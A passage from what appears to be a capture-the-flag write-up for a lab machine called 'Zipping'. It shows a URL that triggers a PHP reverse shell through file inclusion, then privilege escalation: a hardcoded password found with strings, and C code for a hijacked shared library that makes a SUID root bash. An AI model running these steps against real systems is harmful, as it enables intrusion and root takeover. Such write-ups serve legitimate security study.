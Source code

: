 And finally we can just use this to execute the php reverse shell with a get
```bash
xdg-open 'http://10.10.11.229/shop/index.php?page=/var/lib/mysql/shell'
```

## Privesc

```bash
rektsu@zipping:~$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```
```bash
file /usr/bin/stock
/usr/bin/stock: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aa34d8030176fe286f8011c9d4470714d188ab42, for GNU/Linux 3.2.0, not stripped
```
There is no netcat on this box but the binary is very small so I just exfiltrated in base64 form through the clipboard, then a quick look at it through strings gives us the password since it is hardcoded in the binary:
```bash
strings stock|grep pass -B4 -A4
u+UH
Hakaize
S***********
/root/.stock.csv
Enter the password:
Invalid password, please try again.
================== Menu ==================
1) See the stock
2) Edit the stock
3) Exit the program
```
Running strace against it we can see that it attempts to load a shared library in rektsu's home which doesn't exist
```bash
openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = 3
```

So we can write one that spawns a shell
```bash
rektsu@zipping:/tmp$ nano libcounter.c
```
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
 system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
```bash
rektsu@zipping:/tmp$ gcc -c -o libcounter.o libcounter.c
rektsu@zipping:/tmp$ gcc -shared -o libcounter.so libcounter.o
rektsu@zipping:/tmp$ ls -lart libcounter*
-rw-rw-r-- 1 rektsu rektsu   183 Nov  5 19:24 libcounter.c
-rw-rw-r-- 1 rektsu rektsu  1728 Nov  5 19:32 libcounter.o
-rwxrwxr-x 1 rektsu rektsu 15544 Nov  5 19:32 libcounter.so
```
